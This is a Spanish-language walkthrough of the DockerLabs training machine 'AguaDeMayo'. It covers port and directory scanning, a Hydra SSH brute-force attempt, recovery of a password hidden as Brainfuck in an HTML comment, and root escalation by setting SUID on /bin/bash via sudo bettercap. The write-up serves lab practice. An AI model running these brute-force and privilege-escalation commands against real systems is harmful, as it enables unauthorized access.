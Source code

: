 # 🧪 Informe de Pentesting – Máquina *AguaDeMayo*

* **Nombre**: AguaDeMayo
* **Nivel**: Fácil
* **Objetivo**: Obtener acceso a la máquina como root a través de explotación de servicios y técnicas de escalada de privilegios.
* **Logo**:
![Logo](Imagenes/Logo.png)

---

## 🐳 Despliegue de la Máquina

Descargamos la máquina desde la página oficial de DockerLabs y procedemos a descomprimirla:

```bash
unzip aguademayo.zip
```

Luego, la desplegamos utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh aguademayo.tar
```

Imagen del despliegue exitoso:
![Despliegue](./AguaDeMayo/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Verificamos que la máquina esté activa con un simple ping:

```bash
ping -c4 172.17.0.2
```

Resultado del ping:
![Ping](./AguaDeMayo/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Utilizamos Nmap para descubrir todos los puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

El resultado revela que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.
![Puertos](./AguaDeMayo/Imagenes/Puertos.jpeg)

---

## 🧪 Detección de Servicios

Con mi script personalizado `extractPorts` extraigo automáticamente los puertos abiertos y la IP, luego realizo un escaneo más profundo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Esto nos permite obtener información detallada sobre los servicios y versiones activas.
![Servicios](./AguaDeMayo/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accediendo al puerto 80 en el navegador, se muestra la página por defecto de Apache2:

![Página Web](./AguaDeMayo/Imagenes/Pagina.jpeg)

Realizamos fuzzing con `gobuster` para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Se descubre el directorio `/images`:
![Gobuster](./AguaDeMayo/Imagenes/Gobuster.jpeg)

Al acceder a `http://172.17.0.2/images/`, encontramos un archivo JPG llamado `agua_ssh.jpg`:
![Directorio](./AguaDeMayo/Imagenes/Directorio.jpeg)

---

## 🧾 Análisis de Metadatos

Usamos `exiftool` para analizar los metadatos del archivo JPG:

```bash
exiftool agua_ssh.jpg
```

No se encuentra información útil. También se realiza otro escaneo con Gobuster, pero no se identifican más recursos relevantes.
![Imagen](./AguaDeMayo/Imagenes/Imagen.jpeg)

---

## 🔐 Intento de Fuerza Bruta SSH

Dado el nombre de la imagen `agua_ssh.jpg`, se prueba con el usuario `agua` utilizando Hydra para encontrar la contraseña, sin éxito:

```bash
hydra -l agua -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

---

## 🧠 Análisis del Código Fuente

Revisando el código fuente HTML de la página principal, encontramos un comentario sospechoso:

```html
<!-- +[----->+++<]>+.+++++++.--------.+++.------.--------. -->
```

Este es código en **Brainfuck**, un lenguaje de programación esotérico. Lo traducimos en línea y obtenemos:

```
bebeaguaqueessano
```

Este resultado parece ser una contraseña.

![Decodificación](./AguaDeMayo/Imagenes/Codificar.jpeg)

---

## 🔑 Acceso SSH

Con las credenciales:

* **Usuario**: agua
* **Contraseña**: bebeaguaqueessano

Accedemos exitosamente al servicio SSH:

```bash
ssh agua@172.17.0.2
```

![Acceso SSH](./AguaDeMayo/Imagenes/SSh.jpeg)

---

## 🚀 Escalada de Privilegios

Usamos `sudo -l` para verificar los privilegios del usuario `agua`:

```bash
sudo -l
```

Descubrimos que puede ejecutar `bettercap` como root sin contraseña. Aprovechamos esto para habilitar el bit SUID en `/bin/bash`:

1. Iniciamos bettercap como root:

   ```bash
   sudo bettercap
   ```

2. Dentro de bettercap ejecutamos:

   ```bash
   !/usr/bin/chmod u+s /bin/bash
   ```

3. Salimos de bettercap y ejecutamos:

   ```bash
   /bin/bash -p
   ```

Esto nos proporciona una shell como root, gracias al bit SUID activado.

![Root Access](./AguaDeMayo/Imagenes/Root.jpeg)

---

## ✅ Conclusión

La máquina *AguaDeMayo* representa un excelente escenario para practicar técnicas básicas de:

* Enumeración web
* Análisis de metadatos
* Reconocimiento de lenguajes ocultos (Brainfuck)
* Acceso a través de SSH
* Escalada de privilegios con binarios permitidos como sudo

Gracias al acceso permitido a `bettercap` y la posibilidad de establecer permisos SUID, se logra obtener una shell como root, completando así el reto.
